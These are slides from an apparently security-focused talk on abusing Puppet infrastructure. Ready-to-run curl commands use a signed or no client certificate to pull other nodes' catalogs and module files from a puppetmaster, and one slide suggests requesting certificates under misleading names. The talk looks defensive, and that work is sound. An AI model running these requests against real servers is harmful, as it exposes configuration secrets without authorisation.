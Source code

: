 # How to lie to Puppet

## `autosign` disabled?  Try social engineering.

	[agent]
		certname=admin0.example.com
		# certname=dev.example.com
		# certname=test.example.com
		# certname=corp.example.com



!SLIDE bullets small

# How to lie to Puppet

## With a signed certificate, snoop for other catalogs.

	export ssldir=/var/lib/puppet/ssl
	export server=puppetmaster.example.com

	curl --insecure \
		--cert $ssldir/certs/$CERTNAME.pem \
		--key $ssldir/private_keys/$CERTNAME.pem \
		--cacert $ssldir/ca/ca_crt.pem \
		https://$server:8140/$ENV/catalog/db1.example.com



!SLIDE bullets small
.notes If you do have a signed certificate, you can snoop around using it, too.

# How to lie to Puppet

## Snoop around an open file server,<br />no certificates needed.

	export server=puppetmaster.example.com

	curl --insecure \
		https://$server:8140/$ENV/file_content/$MODULE/$FILE



!SLIDE bullets

# How to safely not care
